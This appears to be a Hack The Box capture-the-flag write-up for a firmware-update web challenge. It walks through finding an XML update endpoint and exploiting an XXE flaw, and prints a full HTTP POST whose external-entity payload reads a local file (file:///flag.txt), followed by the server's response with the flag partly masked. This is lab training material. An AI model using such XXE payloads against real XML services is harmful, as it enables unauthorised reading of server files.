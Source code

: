 ##### 1. Navigate the web page, only thing that looks like a vector is the update page under the rom tab

##### 2. The update function sends an xml config file to update the character

This looks like a XXE vulnerability

#### 3. Use XXE (XML external entity injection)

by using burpsuite proxy and repeater, you can modify POST requests.

_Modified POST request with XXE vulnerability exploit for flag.txt_

```
POST /api/update HTTP/1.1
Host: 83.136.253.216:55648
Content-Length: 1386
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Content-Type: application/xml
Accept: */*
Origin: http://83.136.253.216:55648
Referer: http://83.136.253.216:55648/rom
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

<!DOCTYPE replace [<!ENTITY idk SYSTEM 'file:///flag.txt'>]>
<FirmwareUpdateConfig>
    <Firmware>
        <Version>
 		&idk;
	</Version>
        <ReleaseDate>2077-10-21</ReleaseDate>
        <Description>Update includes advanced biometric lock functionality for enhanced security.</Description>
        <Checksum type="SHA-256">9b74c9897bac770ffc029102a200c5de</Checksum>
    </Firmware>
    <Components>
        <Component name="navigation">
            <Version>3.7.2</Version>
            <Description>Updated GPS algorithms for improved wasteland navigation.</Description>
            <Checksum type="SHA-256">e4d909c290d0fb1ca068ffaddf22cbd0</Checksum>
        </Component>
        <Component name="communication">
            <Version>4.5.1</Version>
            <Description>Enhanced encryption for secure communication channels.</Description>
            <Checksum type="SHA-256">88d862aeb067278155c67a6d6c0f3729</Checksum>
        </Component>
        <Component name="biometric_security">
            <Version>2.0.5</Version>
            <Description>Introduces facial recognition and fingerprint scanning for access control.</Description>
            <Checksum type="SHA-256">abcdef1234567890abcdef1234567890</Checksum>
        </Component>
    </Components>
    <UpdateURL>https://satellite-updates.hackthebox.org/firmware/1.33.7/download</UpdateURL>
</FirmwareUpdateConfig>
```

the response:

```
HTTP/1.1 200 OK
Server: Werkzeug/3.0.3 Python/3.12.3
Date: Thu, 02 Jan 2025 00:35:37 GMT
Content-Type: application/json
Content-Length: 134
Connection: close

{
  "message": "Firmware version \nHTB{b*******************************\n update initiated."
}
```
